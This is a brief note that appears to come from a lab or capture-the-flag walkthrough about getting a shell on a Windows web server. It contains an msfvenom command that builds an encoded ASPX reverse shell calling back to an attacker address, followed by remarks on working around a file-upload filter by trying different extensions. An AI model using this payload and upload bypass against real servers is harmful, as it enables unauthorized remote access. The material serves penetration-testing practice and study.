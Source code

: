 ## Created aspx shell using MSFVenom
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=1337 -e x86/shikata_ga_nai -o shell.aspx
```
## Error when uploading
![](../Attachments/Pasted%20image%2020210519184801.png)
## Able to upload config files after trial and error
Used https://book.hacktricks.xyz/pentesting-web/file-upload to test different extensions


